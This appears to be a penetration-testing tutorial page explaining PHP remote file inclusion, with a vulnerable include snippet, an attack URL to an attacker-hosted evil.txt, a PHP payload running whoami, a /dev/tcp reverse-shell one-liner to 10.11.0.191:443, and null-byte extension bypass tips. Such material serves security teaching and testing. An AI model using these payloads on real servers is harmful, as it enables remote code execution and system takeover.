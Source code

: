 # Remote File Inclusion

Remote file inclusion uses pretty much the same vector as local file inclusion.

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine. 

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the `php.ini` configuration file.

This is how they work.

So you have an unsanitized parameter, like this

```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.

```
http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
```

And evil.txt will look like something like this:

```
<?php echo shell_exec("whoami");?>

# Or just get a reverse shell directly like this:
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>

```

So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.


## Avoid extentions

Remember to add the nullbyte `%00` to avoid appending `.php`. This will only work on php before version 5.3. 

If it does not work you can also add a `?`, this way the rest will be interpreted as url parameters.